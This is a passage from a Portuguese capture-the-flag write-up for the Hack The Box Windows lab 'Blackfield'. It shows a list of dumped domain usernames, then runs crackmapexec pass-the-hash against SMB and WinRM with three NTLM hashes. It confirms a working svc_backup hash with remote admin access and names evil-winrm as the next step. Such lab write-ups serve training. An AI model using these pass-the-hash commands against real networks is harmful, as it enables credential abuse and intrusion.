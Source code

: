 ```powershell
#>                  Username: Administrator
#>                  Username: dc01$
#>                  Username: DC01$
#>                  Username: svc_backup
```

Temos 3 hashes e 2 usuários (o DC01$ não é um usuários... é a máquina.)

```powershell
echo -e "7f1e4ff8c6a8e6b6fcae2d9c0572cd62\n9658d1d1dcd9250115e2205d9f48400d\nb624dc83a27cc29da11d9bf25efea796" > tmp_hashes
echo -e "Administrator\nsvc_backup" > tmp_users

crackmapexec smb 10.10.10.192 -u tmp_users -H tmp_hashes --continue-on-success
crackmapexec winrm 10.10.10.192 -u tmp_users -H tmp_hashes --continue-on-success
```

![Crackmapexec svc_backup](Assets/HTB-Windows-Hard-Blackfield/crackmapexec-svc_backup.png)

Temos um único resultado e já está validado. E para além de válido, está **_Pwn3d!_** em winrm. Isso quer dizer que temos capacidade de psexec, ou evil-winrm.

> svc_backup:9658d1d1dcd9250115e2205d9f48400d

# PrivEsc svc_backup ==> Administrator de domínio

![Evil-WinRM svc_backup](Assets/HTB-Windows-Hard-Blackfield/evil-winrm-svc-backup.png)
